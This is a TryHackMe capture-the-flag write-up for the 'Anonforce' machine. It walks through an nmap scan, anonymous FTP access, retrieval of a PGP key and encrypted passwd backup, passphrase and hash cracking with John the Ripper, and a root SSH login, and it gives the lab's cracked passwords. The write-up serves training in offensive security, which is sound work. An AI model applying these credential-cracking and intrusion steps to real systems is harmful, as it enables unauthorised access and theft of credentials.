 ```yaml
---
title: TryHackMe - Anonforce
author: Bonface
date: 2024-10-31 00:00:00 +0000
categories: [TryHackMe]
tags: [tryhackme, linux, nmap, privesc, ftp, ssh, gpg, john, crack]
img_path: /assets/img/Anonforce
image:
    path: 0.png
---
```


# Anonforce  

boot2root machine for FIT and bsides guatemala CTF  

# Tasks  
Read user.txt and root.txt  

# nmap

```sh
nmap -sV -sC -v 10.10.59.93 | tee nmap.txt
```

```sh
PORT STATE SERVICE VERSION
21/tcp open ftp vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxr-xr-x 2 0 0
4096 Aug 11 2019 bin
| drwxr-xr-x 3 0 0
4096 Aug 11 2019 boot
| drwxr-xr-x 17 0 0
3700 Feb 08 07:18 dev
| drwxr-xr-x 85 0 0
4096 Aug 13 2019 etc
| drwxr-xr-x 3 0 0
4096 Aug 11 2019 home
| lrwxrwxrwx 1 0 0
33 Aug 11 2019 initrd.img -> boot/initrd.img-4.4.0-157-generic
| lrwxrwxrwx 1 0 0
33 Aug 11 2019 initrd.img.old -> boot/initrd.img-4.4.0-142-generic
| drwxr-xr-x 19 0 0
4096 Aug 11 2019 lib
| drwxr-xr-x 2 0 0
4096 Aug 11 2019 lib64
| drwx------ 2 0 0
16384 Aug 11 2019 lost+found
| drwxr-xr-x 4 0 0
4096 Aug 11 2019 media
| drwxr-xr-x 2 0 0
4096 Feb 26 2019 mnt
| drwxrwxrwx 2 1000 1000
4096 Aug 11 2019 notread [NSE: writeable]
| drwxr-xr-x 2 0 0
4096 Aug 11 2019 opt
| dr-xr-xr-x 94 0 0
0 Feb 08 07:18 proc
| drwx------ 3 0 0
4096 Aug 11 2019 root
| drwxr-xr-x 18 0 0
540 Feb 08 07:18 run
| drwxr-xr-x 2 0 0
12288 Aug 11 2019 sbin
| drwxr-xr-x 3 0 0
4096 Aug 11 2019 srv
| dr-xr-xr-x 13 0 0
0 Feb 08 07:18 sys
| drwxrwxrwt 9 0 0
4096 Feb 08 07:18 tmp [NSE: writeable]
| drwxr-xr-x 10 0 0
4096 Aug 11 2019 usr
| drwxr-xr-x 11 0 0
4096 Aug 11 2019 var
| lrwxrwxrwx 1 0 0
30 Aug 11 2019 vmlinuz -> boot/vmlinuz-4.4.0-157-generic
|_lrwxrwxrwx 1 0 0
30 Aug 11 2019 vmlinuz.old -> boot/vmlinuz-4.4.0-142-generic
| ftp-syst:
| STAT:
| FTP server status:
| Connected to ::ffff:10.8.172.59
| Logged in as ftp
| TYPE: ASCII
| No session bandwidth limit
| Session timeout in seconds is 300
1/9| Control connection is plain text
| Data connections will be plain text
| At session startup, client count was 2
| vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 8a:f9:48:3e:11:a1:aa:fc:b7:86:71:d0:2a:f6:24:e7 (RSA)
| 256 73:5d:de:9a:88:6e:64:7a:e1:87:ec:65:ae:11:93:e3 (ECDSA)
|_ 256 56:f9:9f:24:f1:52:fc:16:b7:7b:a3:e2:4f:17:b4:ea (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```
Two ports are open  
- 21 = ftp  
- 22 = ssh  

ftp seems to lack log in credentials so will start with that one.  

# ftp_21
```sh
ftp anonymous@10.10.59.93
```

Used default credentials `anonymous:anonymous`  
![](/assets/img/Anonforce/1.png)  
Enumerating i got the user flag .  

![](/assets/img/Anonforce/2.png)

# Privilege Escalation

![](/assets/img/Anonforce/2.png)

- We can not view or write any thing on the root directory
- But there is a fishy directory with unique permissions.

```sh
cd notread
mget *
```
![](/assets/img/Anonforce/4.png)  
one file is an image while the other has some guddies  
![](/assets/img/Anonforce/5.png)

Now we have 
- open port 22 = ssh
- id_rsa key

Lacking a valid user name .
run search_sploit to see if the ssh has an exploit
![](/assets/img/Anonforce/6.png)

- Downloaded the exploit but was unable to use it.
- Did some research.

We got two files from ftp :
- backup.pgp  
- private.asc  

We have an encrypted `backup.pgp` file, and very likely a private key file that we can use to decrypt it.  
First, what we need to do is import the private key into our keyring (key management database) of the PGP application.  

```sh
gpg --import private.asc
```
![](/assets/img/Anonforce/7.png)

We need to crack the passphrase in order to import it into the key ring.  
We can use `John the Ripper` password-cracking tool for this.  

```sh
 gpg2john private.asc > privatehash.txt
```

Now we can run john to crack the hash using the famous `rockyou.txt` dictionary.  

```sh
 john privatehash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
![](/assets/img/Anonforce/8.png)

Now that we have the passphrase for the private key, we can import it into the keyring and decrypt the backup.pgp file.  

passphrase = `xbox360`

```sh
gpg --import private.asc

gpg --decrypt backup.pgp
```
![](/assets/img/Anonforce/9.png)
We will get a backup of the passwd file, that includes the password hash of root and melodias users.  
![](/assets/img/Anonforce/10.png)

Now we crack the passwd file using john.
![](/assets/img/Anonforce/11.png)
![](/assets/img/Anonforce/12.png)

  
- username = root  
- password = hikari  

```sh
 ssh root@10.10.59.93
 ```  
![](/assets/img/Anonforce/13.png)
